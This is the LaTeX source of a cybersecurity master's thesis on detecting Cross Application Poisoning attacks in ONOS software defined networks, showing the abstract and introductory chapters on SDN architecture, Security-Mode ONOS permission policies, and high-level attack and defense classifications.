\documentclass[a4paper,10pt]{memoir}
\usepackage[english]{babel}
\usepackage{resources/wrapfig}
\usepackage[pdftex]{graphicx}
\usepackage{resources/graphviz}
\usepackage{graphicx}
\usepackage{listingsutf8}
\usepackage{amsmath}
\usepackage{afterpage}
\usepackage{subfig}
\usepackage{quoting, lipsum}
\usepackage{float}
\usepackage{makecell}

%Define the listing package
\usepackage{listings} %code highlighter
\usepackage{color} %use color
\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}
\definecolor{gray}{rgb}{0.4,0.4,0.4}
\definecolor{darkblue}{rgb}{0.0,0.0,0.6}
\definecolor{cyan}{rgb}{0.0,0.6,0.6}

\renewcommand{\cellalign}{vh}
\renewcommand{\theadalign}{vh}
\renewcommand\theadalign{bc}
\renewcommand\theadfont{\bfseries}
 
%Customize a bit the look
\lstset{ %
    backgroundcolor=\color{white}, % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}
    basicstyle=\footnotesize, % the size of the fonts that are used for the code
    breakatwhitespace=false, % sets if automatic breaks should only happen at whitespace
    breaklines=true, % sets automatic line breaking
    captionpos=b, % sets the caption-position to bottom
    commentstyle=\color{mygreen}, % comment style
    deletekeywords={...}, % if you want to delete keywords from the given language
    escapeinside={\%*}{*)}, % if you want to add LaTeX within your code
    extendedchars=true, % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
    frame=single, % adds a frame around the code
    keepspaces=true, % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
    keywordstyle=\color{blue}, % keyword style
    % language=Octave, % the language of the code
    morekeywords={*,...}, % if you want to add more keywords to the set
    numbers=left, % where to put the line-numbers; possible values are (none, left, right)
    numbersep=5pt, % how far the line-numbers are from the code
    numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
    rulecolor=\color{black}, % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
    showspaces=false, % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
    showstringspaces=false, % underline spaces within strings only
    showtabs=false, % show tabs within strings adding particular underscores
    stepnumber=1, % the step between two line-numbers. If it's 1, each line will be numbered
    stringstyle=\color{mymauve}, % string literal style
    tabsize=2, % sets default tabsize to 2 spaces
    title=\lstname % show the filename of files included with \lstinputlisting; also try caption instead of title
}
%END of listing package%
 
\definecolor{darkgray}{rgb}{.4,.4,.4}
\definecolor{purple}{rgb}{0.65, 0.12, 0.82}
 

% Default fixed font does not support bold face
\DeclareFixedFont{\ttb}{T1}{txtt}{bx}{n}{12} % for bold
\DeclareFixedFont{\ttm}{T1}{txtt}{m}{n}{12}  % for normal

% Custom colors
\usepackage{color}
\definecolor{deepblue}{rgb}{0,0,0.5}
\definecolor{deepred}{rgb}{0.6,0,0}
\definecolor{deepgreen}{rgb}{0,0.5,0}


% Python style for highlighting
\newcommand\pythonstyle{\lstset{
    language=Python,
    basicstyle=\ttm,
    keywords={self, Host, Link},              % Add keywords here
    keywordstyle=\ttb\color{deepblue},
    emph={MyClass,__init__},          % Custom highlighting
    emphstyle=\ttb\color{deepred},    % Custom highlighting style
    stringstyle=\color{deepgreen},
    frame=tb,                         % Any extra options here
    showstringspaces=false
}}

\lstset{
  basicstyle=\ttfamily,
  columns=fullflexible,
  showstringspaces=false,
  commentstyle=\color{gray}\upshape
}

\lstdefinelanguage{XML}
{
  morestring=[b]",
  morestring=[s]{>}{<},
  morecomment=[s]{<?}{?>},
  stringstyle=\color{black},
  identifierstyle=\color{darkblue},
  keywordstyle=\color{cyan},
  morekeywords={xmlns,version,type}% list your attributes here
}

\newcommand\blankpage{%
    \null
    \thispagestyle{empty}%
    \addtocounter{page}{-1}%
    \newpage}

\usepackage[chapter]{resources/minted}
\usepackage{adjustbox}
\usepackage{hyperref}
\hypersetup{
  colorlinks   = true,    % Colours links instead of ugly boxes
  urlcolor     = blue,    % Colour for external hyperlinks
  linkcolor    = black,    % Colour of internal links
  citecolor    = black      % Colour of citations
}

\definecolor{pblue}{rgb}{0.13,0.13,1}
\definecolor{pgreen}{rgb}{0,0.5,0}
\definecolor{pred}{rgb}{0.9,0,0}
\definecolor{pgrey}{rgb}{0.46,0.45,0.48}

\lstset{language=Java,
  showspaces=false,
  showtabs=false,
  breaklines=true,
  showstringspaces=false,
  breakatwhitespace=true,
  commentstyle=\color{pgreen},
  keywordstyle=\color{pblue},
  stringstyle=\color{pred},
  basicstyle=\ttfamily,
  moredelim=[il][\textcolor{pgrey}]{\$\$},
  moredelim=[is][\textcolor{pgrey}]{\%\%}{\%\%}
}

% import package
\usepackage{resources/sapienzathesis}

\pagestyle{plain}%%to insert the number of the page

% declare info
\STTitle{Proposal and Investigation of a framework for Cross App Poisoning attacks detection in \\Software Defined Networks}
\STFaculty{Information Engineering, Computer Science and Statistics}
\STMCourse{Cybersecurity}
\STCandidate{Edoardo Ottavianelli}
\STMatricola{1756005}
\STSupervisor{Prof. Marco Polverini}
\STAcademicYear{2022/2023}


\begin{document}

\frontmatter


% print title
\maketitle
\cleardoublepage

%\vspace*{10cm}
%\begin{flushright}
%\textsl{...}
%\end{flushright}
%\cleardoublepage

% ================== ABSTRACT ==================
\begin{abstract}
The thesis focuses on the study of a framework for the detection of Cross Application Poisoning attacks in Software Defined Networks. In this type of attacks, malicious applications do not have direct access to the functions that would allow them to carry out actions that would give benefit to the attacker. Security mechanisms are implemented, but malicious applications still manage to inject malicious payloads using the functions they have access to and manage to induce other legitimate applications to carry out the attack on their behalf. The study begins by analyzing existing state-of-the-art solutions and highlighting their limitations. A study is also carried out on the architecture of ONOS, which is the controller for Software Defined networks considered in this research activity. Three implementations of Cross Application Poisoning attacks with different goals are presented, these will also be used in tests for detection. The framework implements an additional data store for registering applications that want to use the APIs exposed by the controller. The APIs require login credentials and every action is logged in a centralized repository. An analysis is then performed using the log file to build a graph representing all interactions between the controller and applications looking for Cross Application Poisoning attack patterns. An in-depth study is also carried out on the security of the proposed solution and on the various attacks that could endanger the components that have been added and the entire network. The idea behind this detection methodology is that the decision to install and activate a new application in a Software Defined network environment is made infrequently. Before activating the new application in production, tests are carried out in an environment where the network operator has complete control of the actions that are performed inside it. By doing so, through the log file produced, it is possible to highlight the malignant or benign nature of the application being tested. In addition to the proposed detection solution, an in-depth security analysis is carried out which revealed security vulnerabilities within the ONOS environment. For the first time in literature, it's implemented a Cross Application Poisoning attack which does not aim to damage the correct functioning of the network, in this case a web application is used as target and the attack presented exploits a Cross Site Scripting vulnerability.
\end{abstract}

\cleardoublepage

\tableofcontents
\cleardoublepage

\mainmatter

\renewcommand\chapterheadstart{}
\renewcommand\printchaptername{}
\renewcommand\chapternamenum{}
\renewcommand\printchapternum{}
\renewcommand\afterchapternum{}
\renewcommand\printchaptertitle[1]{\chaptitlefont \thechapter. \space #1}


% ================== CHAPTER 1 ==================
\chapter{Introduction, Problems and Goals}

\section{Introduction to ONOS}

\subsection{Computer networks}

With the term "computer network" we refer to a network of interconnected digital devices sharing data. This is maybe the easiest definition we can find, but we are missing quite a lot of useful information. For example, we can add that it's not important the types of devices we use: using the appropriate tools and technologies we can put in the same network different devices having different (even opposite) characteristics: huge high-performant workstations, laptops, little smart devices, smart fridges and so on. These devices can use different methods to communicate, like wires (several types and categories e.g. coaxial cable, twisted pair, optical fiber...) and wireless radio-frequency methods. There are three main types of 'architectures': client-server, peer to peer and a mixed solution. The most used is the first one: a client requests services to a server that has the goal of serving the clients, simple as that. We can also add we have to use communication protocols to effectively share data; each device or node in the network must know how to receive a message, how to read and interpret the data, and how to reply to all or a specific recipient node. Over the years research scientists and universities all across the earth developed thousand of protocols to have a reliable and effective connection. Some of the most famous ones are TCP, UDP, IP, HTTP, and DNS. These protocols are used in the TCP/IP stack (graphically shown in Figure 1.1) we use every day accessing Internet. 

\begin{wrapfigure}[17]{r}{0.55\textwidth}
\caption{TCP/IP protocols suite (docs.oracle.com)}
\label{fig:tcpipstack}

\includegraphics[width=0.55\textwidth]{resources/Chapter-1/tcpipstack.jpeg}
\end{wrapfigure}

The idea behind this stack is really simple: there are five layers (physical, data, network, transport, and application) and each one provides services for the upper layer. The figure shows a usage example of the stack: an application creates its packet and it sends that 'down' to the transport layer. This layer will add an header containing information useful for the transport layer of the receiving host. This step is repeated until the final packet is created, and finally, that packet can be sent over the network. The host receiving a packet will do the same steps but in the opposite direction, removing headers until it gets the final application layer data. It has many advantages: (a) It's an open protocol suite. No one owns that and can be used by anyone. (b) It's a scalable architecture. Nodes can be added to the network without disrupting the services. (c) It's modular by design. This means we can completely change protocol at a certain level, but the upper layer will remain unchanged. Another big advantage of this suite is the fact that not all the devices in the network must implement or be aware of all the layers in the stack, but only the ones they directly use. For example a router, the device routing the packets in the network, must know only about the first three layers and can ignore the two upper layers (transport and application) as it doesn't provide services using those layers. Of course, this is not the only existing protocols suite, but for sure is the most used one. It's crucial to notice that the Internet is important because is the biggest and most famous computer network, but even the simplest networks follow the same rules (e.g. two computers connected by a cable).

\subsection{Software Defined Networking}

A particular type of computer network is a Software Defined Network (SDN). In traditional networks, we have distributed devices (they can be emulated also in the same machine, but generally they are physically located in different places) implementing protocols and technologies they need to make the network works as intended. In order to have a working network each device must know some information to deliver packets to other nodes in the same network or other subnetworks. This requires nodes in the network actively or passively gather that information, for example we can talk about routing. Let's say we have several end hosts in the network connected using routers. Those routers only know they have to use a specific routing protocol (e.g. OSPF) to make those hosts communicate effectively. Each router must fill its routing table in order to understand for a packet having specific characteristics which route has to be chosen. This means each device in the network has a local view of the whole network: a router only knows about its neighbors and how to deliver a packet to the next device. Doing so can be highly inefficient, this is one of the main reasons why Software Defined Networking has been invented.
 
Feamster et al. defines Software Defined Networking using these words \cite{sdn-definition}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
First, an SDN separates the control plane (which decides how to handle the traffic) from the data plane (which forwards traffic according to decisions that the control plane makes). Second, an SDN consolidates the control plane, so that a single software control program controls multiple data-plane elements. The SDN control plane exercises direct control over the state in the network’s data-plane elements (i.e., routers, switches, and other middleboxes) via a well-defined Application Programming Interface (API).
\end{quoting}

The main idea behind Software Defined Networking is to separate the concept of routing and forwarding. Routing is the act of determining which route has to be chosen for a packet having specific characteristics (source and destination addresses/networks or protocol-specific information), while forwarding is the concrete action of copying the entire packet from the ingress point to the egress point. A Software Defined Network is composed of multiple logical components: the Data Plane is the layer comprising the end hosts and the physical devices (e.g. switches); the Control Plane is the layer taking care of the routing process (let's say the brain, where the computation is centralized) and the Application Plane, where the software controlling and configuring the control plane is placed. As stated above, one main limitation of traditional networking is the limited view of the whole network, and so limited monitoring too. We are going to see some improvements brought by Software Defined Networks and main reasons of its usage.

During the latest years we've seen some changes in how people access and use the Internet. When a user requests a resource it's increasingly frequent to generate many requests in the back end: if we think of a web page it's not anymore a linear sequence of requests, but a compound of microservices, APIs, asynchronous and internal calls. Moreover, we have many devices connected sending data over the networks (personal devices like laptops, smartphones and tablets, but also smart devices and appliances). Another big change is the mad run to the cloud, both private, public and mixed one. Enterprises want the elasticity and scalability of cloud services to satisfy the needs of their customers. This means they should embrace powerful monitoring technologies, security by design and effective resource provisioning. The last change we faced and still we are facing in these years is the rise of what we call "Big data". First of all, we need big datasets for data mining and to accurately train machine learning models powering search recommendations, automation, pattern recognition and many others tasks in popular products. Secondly, as the number of people having access to the Internet is constantly increasing, a huge load of data is uploaded to datacenters every day; so we can say is like a fire that feeds itself.

All these changes led to the idea of having a centralized core component controlling and having a clear view of the network. This better visibility provides greater scalability, effective automation and more efficient network management.

Obviously it's not only about improvements, there are drawbacks too. Centralization could be very effective in management but it is very risky when it comes to security. This concept is named "single point of failure", it means that if some subcomponent in the central core is vulnerable the whole core could be at risk. The damage of this weakness can be reduced by applying the concepts of Compartmentalization and Defense in depth. The first one refers to the act of creating multiple compartments and separating the sub-services into containerized boxes checking the accesses from one to the other; this reduces the risk of one subcomponent affecting the others. The second one instead means applying multiple layers of security to avoid that a single security check bypass discovered by an attacker can disrupt the services.


\subsection{The Open Network Operating System} 

The Open Networking Foundation (abbreviated ONF) is a non-profit organization founded in 2011 to promote SDN-related technologies and standards. It uses an open source model (that's why Open is in the name) and the products involve wireless and telecommunications networks, datacenters and other networking areas. At the time of writing the foundation includes many famous companies and vendors, ranging from networking-equipment, semiconductor, computer and software companies, telecommunication service providers and datacenter operators. Among these members we can see Google, Microsoft, AT\&T, Cisco, Intel, NVIDIA and many others. In 2011 the foundation started to promote control and forwarding planes decoupling introducing and supporting SDN concepts; the next year they open sourced Openflow that is the first protocol standard to enable remote network controllers managing the nodes in the data plane. In 2014 the foundation 
 released the first open source version of the Open Network Operating System (ONOS), the leading open source SDN Controller. Three years later they released CORD, an edge-cloud solution for telecommunication and cable operators \cite{opennetworking-org}.

ONOS development started in 2014, the source code is available on GitHub platform and at the time of writing it counts more than 260 individual contributors \cite{github-onos}. It's mainly written using Java, but many technologies and programming languages are used for the whole project, like Python, Jinja, JavaScript and Typescript, OSGi, Bazel files, Swagger and many more. The term SDN Controller can be ambiguous since it's a real operating system and like any operating system it uses a kernel and installable applications. ONOS uses as "base layer" Apache Karaf which is a polymorphic application container. It means it is a technology to deploy together various services and components in the same environment giving them the ability to communicate and share resources. It uses the "run anywhere" concept, meaning that it can be used with bare hardware using Java, Docker images or cloud instances. The Apache Foundation in the official documentation states that among many features it supports hot deployment, dynamic configuration, advanced logging system and a UNIX-like console to interact with the runtime. Looking at the logical ONOS architecture (shown in figure 1.2), we can see many components:

\begin{itemize}
  \item \texttt{Applications}: The applications are OSGi bundles that can be activated and deactivated (both at system startup and at runtime using the Karaf console) providing and implementing services ranging from displaying network topologies in a web browser, integrating famous products in ONOS (like Kubernetes and Apache Kafka) to setting up flow rules for custom network traffic.
  \item \texttt{Northbound API}: Northbound APIs is the way applications and core component communicate. The applications can receive notifications and alerts from the Core, listen for events regarding specific topics, overwriting values in core sub-components (data stores and settings) and ask for additional resources.
  \item \texttt{Core}: The Core is the main component, hosting data stores and services for managing various subsystems like Devices, Link, Host and many others. We'll see later why it's distributed. 
  \item \texttt{Southbound API}: Southbound APIs is the way core component and network nodes in the data-plane communicate. The Core can receive notifications and alerts for the network, listen for events regarding specific topics and react to incoming data-plane messages.
  \item \texttt{Providers}: Providers are protocol-aware components for interacting with network devices. They can translate incoming data from the network to messages understandable by the Core. 
\end{itemize}

\begin{figure}[t]
\caption{ONOS architecture (opennetworking.org/onos/)}
\label{fig:onos-arch}

\includegraphics[width=1.0\textwidth]{resources/Chapter-1/onos-arch.jpg}
\centering
\end{figure}

In ONOS the term "service" is a vertical slice through the horizontal logical components of the figure 1.2. For example the Device service (or subsystem) is a vertical slice comprising applications, Northbound APIs, core components, Southbound APIs and Providers managing the devices in the network. The Software Defined Networking concept was presented talking also about the 'centralization' of the information, but in the figure we can read 'Distributed Core'. This is an important feature of ONOS: we can use multiple controllers in order to have a fault tolerant and highly available environment. Even if this feature is really powerful, during this research activity only single controller environments have been taken into account. 

As stated in the subsection title this is just a gentle introduction to ONOS, its components and their purposes, for a more detailed study of the ONOS architecture and internals go to Section 2.1 (ONOS internals).  

\clearpage

\section{Introduction to CAP attacks}

\subsection{Attacks targeting SDN}

Software Defined Networking enhances the visibility and monitoring of the whole network having aggregated data of all the network packets and information in a single place. Despite this improvement, there are security drawbacks too. This new concept of networking adds complexity and this introduces new vulnerability types that were not present in traditional networks. Scott-Hayward et al. did an amazing work in "SDN Security: A Survey" listing and classifying security issues for Software Defined Networks \cite{sdn-security-survey}.

\begin{table}[h]
\begin{tabular}{llllll}
\hline
\thead{Security Issue/Attack} & \thead{Application} & \thead{App-Ctl} & \thead{Control} & \thead{Ctl-Data} & \thead{Data} \\ \cline{1-6}
\hline

\makecell[l]{Unauthorized Access\\ (e.g. Unauthorized Controller Access \\and Unauthenticated Application)} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} \\ \cline{1-6}

\makecell[l]{Data Leakage\\(e.g. Flow Rule Discovery and\\ Forwarding Policy Discovery)} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} \\ \cline{1-6}

\makecell[l]{Data Modification\\(e.g. Flow Rule Modification)} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} \\ \cline{1-6}

\makecell[l]{Malicious Applications\\(e.g. Fraudulent Rule Insertion\\ and Controller Hijacking)} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} \\ \cline{1-6}

\makecell[l]{Denial of Service\\ (e.g. Controller-Switch Communication\\ Flood and Switch Flow Table Flooding)} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} \\ \cline{1-6} 

\makecell[l]{Configuration Issues\\(e.g. Lack of TLS Adoption \\ and Policy Enforcement)} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{x} \\ \cline{1-6} 
\end{tabular}
\end{table}

In the table above we can see the security issues categorized into six categories and marked with a cross which logical layers of Software defined networks are affected or targeted by these attacks. It's important to note that some of the categories are already present in traditional networks (like Data Leakage or Denial of Service), while certain classes are present only in Software defined networks. The most critical ones are the three classes affecting all the layers (Unauthorized Access, Malicious Applications and Configuration issues), but if we think about traditional networks, only Malicious application attacks are present only in Software defined networks. Some of the security issues are explained in the next pages, while certain ones are studied in a more detailed manner.

As we can see from the Software defined networks high-level overview described in subsection 1.1, these types of networks add complexity and have many components that need to communicate to make the networking effective and efficient. This detail introduces a new class of attacks called "Poisoning Attacks" that can put at serious risk many components of the network. Sattolo et al. published the paper "Classifying Poisoning Attacks in Software Defined Networking" with the aim of classifying these attacks using different metrics (by outcome, by layer and by requirements) \cite{class-poison-attacks}. A list of basic attacks with their brief description is presented below (basic means no active security mechanisms in place):

\begin{itemize}
  \item \texttt{Control Channel Hijacking}: The attacker reconfigures the targeted switches to use a different controller
  \item \texttt{Link Fabrication}: The controller thinks that between two devices there is a legitimate link, while in reality they are connected using a malicious host (can be performed using LLDP Packet Generation or LLDP Packet Relay) 
  \item \texttt{Host Location Channel Hijacking}: A malicious host to receive packets meant for another (can lead to data leakage and one-way denial of service)
  \item \texttt{Brain Racing}: Race condition in the source code of controller exploited by hosts 
  \item \texttt{Cross-App Poisoning}: Low privileged applications influences high-priviled applications taking some actions forbidden for the first type of applications. 
  \item \texttt{Teleportation}: Covert channel between a switch and another one (or even an host) undetected by the controller
\end{itemize}

It's important to repeat that vulnerabilities and security issues for traditional networks are still present here (e.g. ARP poisoning), but it's possible to leverage aggregated data to defeat or detect certain types of these attacks.

\subsection{ONOS security mechanisms}
Northbound and Southbound APIs are the main ways for the core component to communicate with applications and network components. However, as said before these are logical layers and nothing stops applications from having direct access to Southbound APIs or any other misuse of these technologies. Let's describe some security issues with the example used in the official documentation. Let's pick this scenario: a simple network, a single ONOS controller and two applications: the first one generates the DeviceDisconnected event (notification directed to the core component telling that a device has been disconnected) consistently modifying the network topology; the second one removes all the devices (layer 2 devices and end hosts) in the network.
\begin{wrapfigure}[17]{r}{0.55\textwidth}
\caption{Security-Mode ONOS}
\label{fig:secmode}

\includegraphics[width=0.55\textwidth]{resources/Chapter-1/sec-mode.png}
\end{wrapfigure}
These two applications could create problems related to the stability and reliability of the network. For example, if the environment uses the reactive forwarding application (org.onosproject.fwd) to add flow rules needed to correctly route the traffic, the choices made by this one could be unpredictable because the network could change in an inconsistent state due to the first two applications usage. One problem is clearly the fact that the first application generates the DeviceDisconnected events using the module called DeviceProviderService from the Southbound APIs. Applications should only use Northbound APIs, however since these are logical layers, they aren't directly connected in the conceptual drawings we use to explain the high-level architecture, but in reality nothing is blocking applications from importing and using those APIs (since they are public and can be used). The other problem is the fact that an application, even if it uses the Northbound APIs, is allowed to delete random devices (using one of the Admin Services), which is an important privilege that should be carefully granted only to selected few components in the environment. In order to prevent such types of APIs misuse, Security-Mode ONOS must be used. Using this mode it's possible to prevent applications from accessing sensitive ONOS tiers (only Northbound APIs allowed) and administrative actions; in particular three access methods are implemented: Bundle-level Role-based Access Control, Application-level Role-based Access Control and API-level Permission-based Access Control.
In order to use these access control mechanisms we need to specify a policy in the bundle specification file (needed to compile and install the application into ONOS). Here an example of a policy file for ONOS application:
\begin{lstlisting}[language=XML]
<feature name="onos-app-sdnip" version="1.0.0" description="SDN-IP peering application">
	<type> ONOS application </type>
	<role> non-admin </role>
	<uses-permission onos:name="onos.permission.INTENT_WRITE"/>
	<uses-permission onos:name="onos.permission.DEVICE_READ"/>
	<uses-permission onos:name="onos.permission.TOPOLOGY_EVENT"/>
	<uses-permission onos:name="onos.permission.PACKET_EVENT"/>
	<bundle>mvn:org.onosproject/onos-app-sdnip/1.0.0</bundle>
</feature>
\end{lstlisting}
In line 1 the feature field is used to specify some general information about the bundle. Line 2 specifies the bundle type and this is important to understand what the bundle is describing (could be a provider or a service), in this case being an ONOS application only the Northbound API access will be allowed. In line 3 the role field specifies if the bundle can access administrative services (can be 'admin' or 'non-admin'). From lines 4 to 7 the policy specifies which permissions the bundle is requesting access to; it's possible to define granular permissions for each application specifying the permission identifier (a complete list of all the permission identifiers can be found on the ONOS official documentation) \cite{secmode-perms}. Since this is a very important file for the security mechanism provided by ONOS, it's recommended to not only sign the jar file but also this policy file (e.g. using the JDK’s jarsigner). ONOS can also restrict the installation and deployment of applications from untrusted sources.

This is the order Security-Mode ONOS uses to check if a resource can be granted to a specific object, if all three checks pass the permission is granted, otherwise the action is blocked:
\begin{enumerate}
  \item\texttt{Bundle-level Role-based Access Control}: The "type" field in the bundle policy file is fetched, if the object is an ONOS application anything except the Northbound APIs is forbidden.
  \item\texttt{Application-level Role-based Access Control}: The "role" field in the bundle policy file is fetched, if the object role doesn't have administrator access some services are forbidden. 
  \item\texttt{API-level Permission-based Access Control}: The "uses permission" fields in the bundle policy file are fetched, then they are compared with the requested action to check if the object has all the required permissions. 
\end{enumerate}

Security-Mode ONOS and related suggested security mechanisms (like application and policy file signing) are crucial to secure the whole environment, however starting from ONOS version 2, the first mechanism is deprecated because it doesn't work with Apache Karaf version 4. 

The security mechanisms presented above are directly designed, implemented and provided by the ONOS developers community. Other mechanisms try to protect from specific attack types (such as the ones described in the previous section). We can see in the following table the defense mechanisms classification (by attack type) provided by Scott-Hayward et al.

\begin{table}[h]
\begin{tabular}{llllll}
\hline
\thead{Attack/Defense} & \thead{Host\\Location\\Hijacking} & \thead{Link\\Fabrication} & \thead{Cross-App\\Poisoning} & \thead{Control\\Channel\\Hijacking} \\ \cline{1-5}
\hline

\makecell[l]{TopoGuard\\Shutdown\\Checking} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} \\ \cline{1-5}

\makecell[l]{TopoGuard\\HMAC} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} \\ \cline{1-5}

\makecell[l]{Device\\Authentication} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} \\ \cline{1-5}

\makecell[l]{SPHINX\\ } & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} \\ \cline{1-5}

\makecell[l]{Link Latency\\Inspection} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} \\ \cline{1-5}

\makecell[l]{Stealthy\\Probing} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} \\ \cline{1-5}

\makecell[l]{ProvSDN\\ } & \multicolumn{1}{l}{} & \multicolumn{1}{l}{} & \multicolumn{1}{l}{x} & \multicolumn{1}{l}{} \\ \cline{1-5}

\end{tabular}
\end{table}

We have multiple defense mechanisms for some attacks while no one for other attack types. These sections are useful to get in touch with new security issues and attack classes brought by Software Defined Networking complexity (compared to traditional networks). In the next sections the focus will be on Cross Application Poisoning attacks: what they are and how they work, which security issues they leverage and the known defense mechanisms trying to detect or block them.  

\subsection{Cross Application Poisoning attacks}
%% - what is a CAP attack
Before going deep into what a Cross Application Poisoning attack is, it's important to clear some aspects. As aforementioned, Software Defined networks are way more complex than traditional ones and this is mainly because of the addition of the Control plane and the Application plane (recall that in traditional networks all the application logic is inserted into the data plane). Applications have a lot of power on the network behavior and if even just one of them is misbehaving, let's say because it was written in a bad manner or just because few tests were run, the network operations can be completely disrupted. If instead one malicious application is purposely misbehaving knowing what damage can be done, the scenario is completely different and this is way more dangerous. That's why Security-Mode ONOS was designed: applications permission policy should follow the "least privilege principle": each application should be granted the minimum requirements necessary to perform the actions it was designated to complete. This concept eliminates many problems at the root: think of an application designed to manage routing. The latter is installed and deployed in a production environment. Instead of using APIs to perform routing-related actions, this application kills all nodes in the network. Obviously in this case the permissions granted to the application must be only the strictly necessary to carry out routing.

Having said this preamble, it's important to point out that there could be cases in which even if an application is granted minimum privileges, it could still perform malicious actions that can cause damage to the entire infrastructure. This is exactly what a cross application poisoning attack exploits. The ONOS control plane and application plane have many shared resources, and if you don't know how the two sides communicate or what resources are being shared, unpleasant situations could arise. Let's imagine the case where we have two applications, we will call them applications A and B. Application A has low privileges, for example only permission 1, while application B has high privileges such as permissions 2 and 3. The Application A cannot directly use permissions 2 or 3, but uses its permission 1 to trigger application B to use its permissions on behalf of application A.
\begin{figure}[t]
\caption{CAP attack visualized}
\label{fig:cap1}

\includegraphics[width=0.90\textwidth]{resources/Chapter-1/cap1.png}
\centering
\end{figure}
